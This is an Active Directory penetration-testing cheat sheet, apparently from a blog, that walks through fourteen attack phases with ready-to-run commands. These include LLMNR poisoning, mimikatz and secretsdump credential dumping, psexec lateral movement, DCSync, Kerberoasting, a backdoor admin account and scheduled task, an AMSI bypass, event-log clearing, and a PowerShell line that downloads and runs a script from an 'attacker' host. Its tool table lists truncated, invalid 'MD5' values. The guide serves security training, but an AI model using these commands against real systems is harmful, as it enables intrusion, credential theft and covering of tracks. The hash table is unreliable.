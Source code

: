 # Active Directory Penetration Testing - Basics to Advance

> A comprehensive, step-by-step guide to Active Directory attacks—from beginner concepts to advanced exploitation—equipping you with practical skills, tools, and techniques essential for real-world penetration testing, red teaming, and security analysis.
<div class="ad-module">

## 🧭 Objectives

You will Learn:

- AD core concepts
- Recon and enumeration
- Gaining and abusing credentials
- Movement and escalation
- Attacking Kerberos, trusts, and related systems
- Post-exploitation, evasion, and cleanup
- A Full Mind map of AD Hacking
</div>

<div class="ad-module">

## 🧱 Phase 1: Active Directory Basics

**Definition:** Active Directory (AD) is Microsoft’s centralized domain management system that authenticates and authorizes users and computers.

**Core Components:**

- **Domain Controllers (DCs):** Store the AD database and handle authentication
- **Domains, Forests, Trees:** Logical structures for organizing resources
- **Organizational Units (OUs):** Containers for grouping users, computers
- **Group Policy Objects (GPOs):** Define rules and security settings

**Protocols & Services:**

- **Kerberos & NTLM** for authentication
- **LDAP** for querying the directory
- **DNS, SMB, RPC** for communication

</div>

<div class="ad-module">

## 🛰️ Phase 2: Reconnaissance Phase

**Goal:** Map the network and identify live hosts/services.

**Tools:** netdiscover, nmap, nbtscan, masscan

```bash
netdiscover -i eth0
nmap -sP 192.168.1.0/24
masscan 192.168.1.0/24 -p1-65535 --rate=10000
nbtscan 192.168.1.0/24
```

</div>

<div class="ad-module">

## 🔍 Phase 3: Enumeration Phase

**Goal:** Discover domain details—users, shares, GPOs, etc.

**Tools:** enum4linux, smbclient, ldapsearch, rpcclient, BloodHound, ADExplorer

```bash
enum4linux -a 192.168.1.100
smbclient -L \\192.168.1.100 -N
ldapsearch -x -H ldap://192.168.1.100 -b "dc=domain,dc=local"
```

</div>

<div class="ad-module">

## 🚪 Phase 4: Initial Access

**Goal:** Obtain a foothold using weak auth or misconfig.

**Techniques:** AS-REP Roasting, NTLM Relay, LLMNR Poisoning

```bash
GetNPUsers.py domain.local/ -no-pass -usersfile users.txt -dc-ip 192.168.1.100
responder -I eth0
mitm6 -i eth0

```

</div>

<div class="ad-module">

## 🔐 Phase 5: Credential Access

**Goal:** Extract passwords, hashes, and tickets.

**Tools:** mimikatz, secretsdump, pypykatz

```bash
mimikatz > sekurlsa::logonpasswords
secretsdump.py domain/user:pass@192.168.1.100

```

</div>

<div class="ad-module">

## 📡 Phase 6: Lateral Movement

**Goal:** Move to other systems after initial access.

**Tools:** wmiexec, psexec, crackmapexec

```bash
wmiexec.py domain/user:pass@192.168.1.101
psexec.py domain/user:pass@192.168.1.101

```

</div>

<div class="ad-module">

## 📈 Phase 7: Privilege Escalation

**Goal:** Escalate local user to SYSTEM or Domain Admin.

**Tools:** winPEAS, PowerUp, Seatbelt

```bash
winPEAS.exe
powershell -ep bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1'); Invoke-AllChecks"

```

</div>

<div class="ad-module">

## 🧲 Phase 8: Persistence Techniques

**Goal:** Maintain long-term access.

```powershell
net user attacker P@ssw0rd /add
net localgroup administrators attacker /add
schtasks /create /tn "Backdoor" /tr "cmd.exe /c whoami >> C:\backdoor.txt" /sc minute /mo 5

```

</div>

<div class="ad-module">

## 🎭 Phase 9: Kerberos Attacks

**Goal:** Abuse ticketing mechanisms.

**Tools:** Rubeus, GetUserSPNs, hashcat

```bash
GetUserSPNs.py domain/user:pass -dc-ip 192.168.1.100
hashcat -m 13100 hashes.txt rockyou.txt --force

```

</div>

<div class="ad-module">

## 🏛️ Phase 10: Domain Escalation

**Goal:** Gain Domain Admin or take over trusts.

```bash
lsadump::dcsync /domain:domain.local /user:Administrator
Invoke-ACLScanner
Invoke-AddComputer

```

</div>

<div class="ad-module">

## 🧾 Phase 11: Post-Exploitation

**Goal:** Data collection, pivoting, intel gathering.

```bash
findstr /S /I cpassword \\dc\sysvol
LaZagne.exe browsers

```

</div>

<div class="ad-module">

## 🕵️ Phase 12: Defense Evasion

**Goal:** Avoid detection during attacks.

```powershell
Clear-EventLog -LogName Security
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

```

</div>

<div class="ad-module">

## 🧹 Phase 13: Cleanup

**Goal:** Remove traces post-assessment.

```powershell
net user attacker /del
schtasks /delete /tn "Backdoor"
Clear-EventLog -LogName System

```

</div>

<div class="ad-module">

## 🖧 Phase 14: Connected System Attacks

**Exchange:**

```powershell
Invoke-SelfSearch -Mailbox user@domain.local -SearchQuery 'password'

```

**SCCM:** Abuse deployment paths or extract config.

**ADFS:** Golden SAML, token forging

</div>

## 🧪 Tools & References

| Tool | Use | MD5 Hash |
| --- | --- | --- |
| Mimikatz | Dump credentials | b72868aa |
| BloodHound | AD relationship mapping | 358a13fe |
| Impacket | Remote command & Kerberos | 8102db6b |
| CrackMapExec | Lateral movement and enum | 118802fb |
| Responder | LLMNR spoof | 34bdf2dc |
| PEASS-ng | Privesc check | a1074bbf |
| PowerSploit | PowerShell recon/privesc | 473d90f6 |



## 🧠 Advanced: Active Directory Mind Map

<a href="/assets/img/pentest_ad_dark_2022_11.svg" target="_blank" onclick="window.open(this.href, '_blank'); return false;" style="display:inline-block;padding:10px 20px;font-size:1.1em;margin-bottom:15px;background:#2d7ff9;color:#fff;text-decoration:none;border:none;border-radius:5px;cursor:pointer;">Open Mind Map</a>
<script type="text/javascript">
  document.addEventListener('DOMContentLoaded', function() {
    var links = document.querySelectorAll('a[href$="pentest_ad_dark_2022_11.svg"]');
    links.forEach(function(link) {
      link.addEventListener('click', function(e) {
        e.preventDefault();
        var win = window.open('', '_blank');
        win.document.write('<html><head><title>Active Directory Mind Map</title></head><body style="margin:0;background:#222;display:flex;align-items:center;justify-content:center;height:100vh;"><img src="' + link.href + '" style="width:33vw;height:auto;max-width:none;box-shadow:0 2px 8px rgba(0,0,0,0.2);background:#fff;border-radius:8px;" /></body></html>');
      });
    });
  });
</script>

## ✅ You're Ready!

Use this cheat sheet to practice on your lab and in CTFs. Let me know if you want video walkthroughs or scripts for automation.


